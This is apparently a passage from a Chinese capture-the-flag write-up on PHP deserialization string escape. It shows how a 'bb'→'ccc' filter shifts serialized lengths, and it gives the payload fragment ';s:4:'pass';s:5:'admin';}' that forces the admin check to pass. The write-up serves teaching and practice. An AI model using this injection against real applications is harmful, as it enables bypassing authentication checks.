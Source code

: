 ```php
	if ($c->pass === 'admin') {
		echo $flag;
	} else {
		echo "no no no";
	}
```

在代码中，当 `$pass`为 `admin`时，才会输出 `flag`

在这里有一个函数 `waf`

`waf`函数会将 `bb`变为 `ccc`

即 `bb`会变为 `ccc`，在这个过程中反序列化时便会少读取一个字符

使用 `test.php`查看当前序列化结果

```php
<?php
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'admin';
		public $pass = '123456';
	}

	$c = (serialize(new A()));
	echo $c;
```

![php_unseriablize10](phpUnserialize/s10.png)

我们要让红线部分的数据修改为 `admin`，在代码里修改

```php
<?php
	function waf($str) {
		return str_replace('bb', 'ccc', $str);
	}

	class A {
		public $name = 'admin';
		public $pass = 'admin';
	}

	$c = (serialize(new A()));
	echo $c;
```

![php_unseriablize11](phpUnserialize/s11.png)

所以我们要逃逸的字符串为 `";s:4:"pass";s:5:"admin";}`
